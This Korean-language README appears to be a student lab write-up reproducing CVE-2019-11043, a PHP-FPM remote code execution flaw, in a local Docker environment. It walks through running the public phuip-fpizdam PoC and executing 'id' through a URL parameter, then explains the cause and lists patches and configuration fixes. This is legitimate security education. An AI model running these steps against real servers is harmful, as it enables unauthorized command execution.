





# [WHS 4기] 20반 한동훈 CVE-2019-11043

## 0. Contributors
- [한동훈(@HanDongHuni)]  (https://github.com/HanDongHuni)

---

## 1. 취약점 개요

CVE-2019-11043은 PHP-FPM에서 발생하는 원격 코드 실행(Remote Code Execution, RCE) 취약점이다.

특정 Nginx 설정과 PHP-FPM 조합에서 FastCGI 버퍼 처리 과정의 취약점을 이용하여 공격자가 원격에서 임의의 PHP 설정을 변경하고 시스템 명령을 실행할 수 있다.

본 실습에서는 Docker를 이용하여 취약한 환경을 구축한 후 공개된 PoC를 이용하여 취약점을 재현한다.

---

## 2. 실행 전 준비사항

실습을 진행하기 전에 아래 프로그램이 설치되어 있어야 한다.

- Docker Desktop
- Docker Compose
- Go (PoC 실행을 위해 필요)

Go가 설치되어 있지 않은 경우 아래 공식 사이트에서 설치한다.

https://go.dev/dl/

---

## 3. 환경 구성

### 3.1 Container 환경 (Container - Version)

- Nginx - nginx:1
- PHP - vulhub/php:7.2.10-fpm

### 3.2 포트 구성

- Host : 8080
- Container : 80

### 3.3 디렉터리 구조

```text
CVE-2019-11043
│
├── docker-compose.yml
├── default.conf
├── README.md
├── image
│   ├── 1.png
│   ├── 2.png
│   ├── 3.png
│   ├── 4.png
│   └── 5.png
└── www
    └── index.php
```

---

## 4. 취약 조건

- PHP-FPM 사용
- 취약한 PHP 버전
- Nginx + PHP-FPM 조합
- FastCGI 설정이 취약한 형태
- location 설정이 취약한 형태

---

## 5. 환경 구축

프로젝트 폴더에서 아래 명령을 실행한다.

```bash
docker compose up -d
```

정상적으로 실행되면 Nginx와 PHP 컨테이너가 생성된다.



실행 중인 컨테이너 확인

```bash
docker ps
```

실행 결과



웹 서버 접속

```
http://<host_ip>:8080/index.php
```

정상적으로 접속되면

```
hello world
```

페이지가 출력된다.



---

## 6. 취약점 재현

### 6.1 PoC 다운로드

```bash
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
```

Go가 설치되어 있지 않은 경우 아래 사이트에서 설치 후 진행한다.

https://go.dev/dl/


### 6.2 공격 실행

PoC 프로젝트에서 아래 명령을 실행한다.

```bash
go run . "http://<host_ip>:8080/index.php"
```

공격이 성공하면 다음과 같이 출력된다.

```
Success!
Was able to execute a command
```

실행 결과




### 6.3 명령 실행 확인

브라우저에서 아래 주소를 입력한다.

```
http://localhost:8080/index.php?a=id
```

정상적으로 취약점이 재현되면 Linux 명령이 실행된다.

```
uid=33(www-data)
gid=33(www-data)
groups=33(www-data)
```

실행 결과



---

## 7. 취약점 원리

PHP-FPM은 FastCGI 프로토콜을 사용하여 PHP 스크립트를 처리한다.

특정 Nginx 설정에서 긴 URL을 이용하면 FastCGI 버퍼가 비정상적으로 처리되면서 PHP-FPM 내부 메모리가 손상된다.

공격자는 이 취약점을 이용하여 php.ini 설정값을 변경하고 auto_prepend_file 옵션 등을 조작하여 임의의 명령을 실행할 수 있다.

결과적으로 서버에서 Linux 명령이 실행되며 Remote Code Execution이 가능해진다.

---

## 8. 대응 방안

본 취약점을 방지하기 위해 다음과 같은 방법을 적용해야 한다.

- PHP를 최신 버전으로 업데이트
- PHP-FPM 7.2.24 이상 사용
- PHP-FPM 7.3.11 이상 사용
- 취약한 FastCGI 설정 제거
- Nginx location 설정 수정
- Web Application Firewall(WAF) 적용

---


## 9. 참고자료

- https://github.com/vulhub/vulhub
- https://github.com/neex/phuip-fpizdam
- https://nvd.nist.gov/vuln/detail/CVE-2019-11043
- https://go.dev/dl/